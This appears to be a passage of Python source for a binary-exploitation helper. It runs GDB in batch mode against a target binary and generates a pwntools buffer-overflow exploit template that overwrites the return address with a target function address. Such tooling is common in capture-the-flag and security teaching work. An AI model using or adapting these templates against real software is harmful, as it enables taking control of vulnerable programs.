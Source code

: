 ```python
        """
        
        # Write script to temporary file
        with tempfile.NamedTemporaryFile(mode='w', delete=False, suffix='.gdb') as f:
            f.write(gdb_script)
            script_path = f.name
        
        try:
            # Run GDB with script
            result = subprocess.run(
                ['gdb', '-batch', '-x', script_path, self.binary_path],
                capture_output=True, text=True, timeout=10
            )
            
            # Parse output for crash information
            return self._parse_gdb_output(result.stdout)
            
        finally:
            os.unlink(script_path)
    
    def _parse_gdb_output(self, output):
        """Parse GDB output to extract crash information"""
        # TODO: Parse register values and determine offset
        # Look for RSP value and calculate offset using cyclic_find
        pass
    
    def generate_exploit_template(self, offset, target_function=None):
        """Generate basic exploit template"""
        template = f'''#!/usr/bin/env python3
from pwn import *

# Target binary: {self.binary_path}
# Crash offset: {offset}

binary_path = "{self.binary_path}"
context.arch = 'amd64'

def exploit():
    p = process(binary_path)
    
    # Wait for input prompt
    # p.recvuntil(b"prompt: ")
    
    # Craft payload
    offset = {offset}
    '''
        
        if target_function:
            template += f'''
    target_address = {hex(target_function)}
    payload = b'A' * offset + p64(target_address)
    '''
        else:
            template += '''
    # TODO: Find target function address
    # target_address = 0x401234  # Address of win function
    # payload = b'A' * offset + p64(target_address)
    payload = b'A' * (offset + 8)  # Test payload
    '''
        
        template += '''
    # Send payload
    p.sendline(payload)
```
